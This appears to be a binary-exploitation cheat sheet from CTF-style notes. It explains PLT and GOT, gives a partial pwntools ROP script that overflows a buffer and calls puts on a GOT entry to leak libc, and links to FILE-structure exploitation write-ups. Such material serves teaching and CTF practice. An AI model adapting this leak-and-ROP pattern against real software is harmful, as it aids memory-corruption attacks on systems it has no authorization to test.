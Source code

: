 ### **Puts Puts**
**Create Libc Leaks**

PLT - Procedure Linkage Table

- If the address of the external resource (eg puts) is known, jumps to it.

- If the address of the external resource is *not* known, look it up

- Accessible in pwntools via 

  ```python
  elf.plt['function_name']
  ```


GOT - Global Offset Table

- Contains pointers to external resources
- Accessible in pwntools via
```python
  elf.got['function_name']
  ```
  
Example pwntools script to find leak:

```python
from pwn import *

# tell pwntools about your system so it knows calling convention, etc.
context(arch='x86', os='linux', endian='little', terminal=['tmux', 'splitw', '-h'])

# create objects to help us parse the elf and create ROP chains
elf = ELF('path/to/binary')
rop = ROP(elf)

# get a ROP gadget to call puts with a pointer to an address in libc as an address
rop.puts(elf.got['puts'])
p.sendline('A'*24+str(rop))
```
[More Detailed Look at PLT/GOT for Pwning Purposes](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

[Example Writeup Using Puts Puts with Pwntools](http://ctfhacker.com/ctf/pwnable/2015/08/18/campctf-bitterman.html)


### **Libc_csu_init**
**Call Arbitrary Functions With up to Three Arguments**

![](https://github.com/RylanOC/BLACK-MAGIC/blob/master/media/libc_csu_init.jpeg)


### **STDIN Buffer**
[https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique](https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique)

[https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf](https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf)
